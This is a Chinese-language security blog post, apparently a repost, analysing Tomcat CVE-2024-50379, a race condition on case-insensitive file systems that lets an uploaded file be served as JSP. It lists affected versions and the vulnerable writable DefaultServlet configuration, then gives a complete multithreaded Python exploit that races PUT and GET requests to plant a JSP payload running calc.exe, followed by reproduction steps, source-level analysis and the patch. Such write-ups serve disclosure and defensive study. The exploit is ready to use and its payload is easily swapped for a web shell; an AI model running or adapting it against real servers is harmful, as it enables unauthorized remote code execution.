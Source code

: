 #  Tomcat CVE-2024-50379 条件竞争导致命令执行   
 船山信安   2025-03-03 17:01  
  
## 漏洞描述  
  
如果默认 Servlet 启用了写权限（即readonly  
初始化参数被设置为非默认值false  
），在不区分大小写的文件系统中，同一文件的并发读取和上传操作可能会绕过 Tomcat 的大小写敏感性检查，导致上传的文件被视为 JSP 文件，从而引发远程代码执行漏洞。  
## 漏洞条件  
- Windows操作系统：对文件扩展名大小写不敏感  
  
- 版本：  
  
```
11.0.0-M1 <= Apache Tomcat < 11.0.210.1.0-M1 <= Apache Tomcat < 10.1.349.0.0.M1 <= Apache Tomcat < 9.0.98
```  
- DefaultServlet需要有以下配置：开启写权限  
  
```
<servlet>        <servlet-name>default</servlet-name>        <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>        <init-param>            <param-name>debug</param-name>            <param-value>0</param-value>        </init-param>        <init-param>            <param-name>listings</param-name>            <param-value>false</param-value>        </init-param>        <!-- 开启写权限 -->        <init-param>            <param-name>readonly</param-name>            <param-value>false</param-value>        </init-param>        <load-on-startup>1</load-on-startup>    </servlet>
```  
## 漏洞验证  
- **环境**  
  
```
tomcat: 9.0.96jre: 1.8system: Windows 11
```  
- **exploit**  
  
```
import requestsimport threadingimport sysSHELL_CONTENT = '''<% Runtime.getRuntime().exec("calc.exe");%>'''# 使用 Event 控制线程终止stop_event = threading.Event()def upload_shell(url):    session = requests.Session()  # 每个线程使用独立的 Session    print("[+] Uploading JSP shell...")    while not stop_event.is_set():        try:            response = session.put(url, data=SHELL_CONTENT, timeout=3)            # if response.status_code not in (201, 204):            #     print(f"[-] Upload failed with status code: {response.status_code}")        except Exception as e:            if not stop_event.is_set():                print(f"[-] Upload error: {str(e)}")def accessShell(url):    session = requests.Session()  # 每个线程使用独立的 Session  (session线程不安全)    while not stop_event.is_set():        try:            response = session.get(url, timeout=3)            if response.status_code == 200:                print("[+] Access Success")                stop_event.set()  # 触发所有线程停止                return        except Exception as e:            if not stop_event.is_set():                print(f"[-] Access error: {str(e)}")if __name__ == "__main__":    if len(sys.argv) < 3:        print("Usage: python Poc.py <base_url> <shell_name>")        sys.exit(1)    base_url = sys.argv[1]    shell_name = sys.argv[2]    upload_url = f"{base_url}/{shell_name[:-3]}{shell_name[-3:].upper()}"    access_url = f"{base_url}/{shell_name[:-3]}{shell_name[-3:].lower()}"    print(f"upload_url: {upload_url}")    print(f"access_url: {access_url}")    # 创建上传线程池    upload_threads = []    for _ in range(20):        t = threading.Thread(target=upload_shell, args=(upload_url,))        t.daemon = True  # 设置为守护线程        upload_threads.append(t)        t.start()    # 创建访问线程池    access_threads = []    for _ in range(5000):        t = threading.Thread(target=accessShell, args=(access_url,))        t.daemon = True  # 设置为守护线程        access_threads.append(t)        t.start()    # 主线程循环检查停止事件    try:        while not stop_event.is_set():            pass    except KeyboardInterrupt:        stop_event.set()        print("\n[!] Stopping all threads due to keyboard interrupt.")    # 等待所有线程完成    for thread in upload_threads + access_threads:        thread.join()    print("\n[!] All threads stopped.")
```  
1. **复现过程**  
：  
>>     脚本执行期间可以观察到，在D:\Program Files (x86)\apache-tomcat-9.0.96\apache-tomcat-9.0.96\webapps\ROOT  
中,shell.JSP的大小会在1KB和0KB反复变化  
  
  
1. 重新开启tomcat:  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicOib9iajYCzT8bpUOx6wzJLHFxhyemO6cUVTb04BrqOpB8kCxCBZzLzHCd6GIReeSlHicTdAR3uuCZYQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
注意这时会弹出一个另一个弹窗  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicOib9iajYCzT8bpUOx6wzJLHFv3OH12Zibick7Dfref0aWpetYarlSckSicPyavS1HFUSGRgbVqtPBghtQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
不要关闭这个弹窗，不然http://localhost:8080/  
无法访问  
  
1. 执行脚本：python CVE-2024-50379.py http://localhost:8080 shell.jsp  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicOib9iajYCzT8bpUOx6wzJLHFKjEyCDcqomKibfleMohibR9rdhjiaNogrwbGvtiatthSwL7FNB4MR0Lj8w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
执行成功！  
  
## 漏洞分析  
  
![image](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicOib9iajYCzT8bpUOx6wzJLHF9HSYetD8cnMRJORqDCvuBjCoBVV0HbfrJSHoBkyhZHHia0nVTPxkdxA/640?wx_fmt=jpeg&from=appmsg "")  
  
org.apache.catalina.webresources.DirResourceSet#getResource  
```
@Override    public WebResource getResource(String path) {        checkPath(path);        String webAppMount = getWebAppMount();        WebResourceRoot root = getRoot();        if (path.startsWith(webAppMount)) {        //获取资源            File f = file(path.substring(webAppMount.length()), false);            if (f == null) {                return new EmptyResource(root, path);            }            if (!f.exists()) {                return new EmptyResource(root, path, f);            }            if (f.isDirectory() && path.charAt(path.length() - 1) != '/') {                path = path + '/';            }            return new FileResource(root, path, f, isReadOnly(), getManifest());        } else {            return new EmptyResource(root, path);        }    }
```  
  
org.apache.catalina.webresources.AbstractFileResourceSet#file  
```
protected final File file(String name, boolean mustExist) {        if (name.equals("/")) {            name = "";        }        File file = new File(fileBase, name);        //一些处理        ...         // Check that this file is located under the WebResourceSet's base        String canPath = null;        try {            //漏洞点            canPath = file.getCanonicalPath();        } catch (IOException e) {            // Ignore        }        if (canPath == null || !canPath.startsWith(canonicalBase)) {            return null;        }        String absPath = normalize(file.getAbsolutePath());        ...        //必须绕过才能利用成功        if (!canPath.equals(absPath)) {            if (!canPath.equalsIgnoreCase(absPath)) {                logIgnoredSymlink(getRoot().getContext().getName(), absPath, canPath);            }            return null;        } //必须进入这里才能利用成功        return file;    }
```  
  
当file  
所指向的文件不存在，或该文件正在被写（还没有落地）时，file.getCanonicalPath()  
返回的路径与构造file对象时传入的路径（absPath)一致,文件落地后file.getCanonicalPath()  
获取到的就是文件实际规范路径（xxx/shell.JSP),这也是需要条件竞争的原因  
## 漏洞修复  
  
相关补丁：  
- Fix inconsistent resource metadata with current GET and PUT/DELETE · apache/tomcat@43b507e  
  
- https://github.com/apache/tomcat/commit/631500b0c9b2a2a2abb707e3de2e10a5936e5d41  
  
其大致思路是用锁机制，对PUT shell.JSP  
和GET shell.jsp  
进行同步，使得当进行PUT shell.JSP  
时，GET shell.jsp  
会被阻塞在临界区外,其中临界资源是 xxx/shell.jsp（等同于xxx/shell.JSP) 所指向的文件  
  
转自：https://www.freebuf.com/vuls/423039.html  
  
  

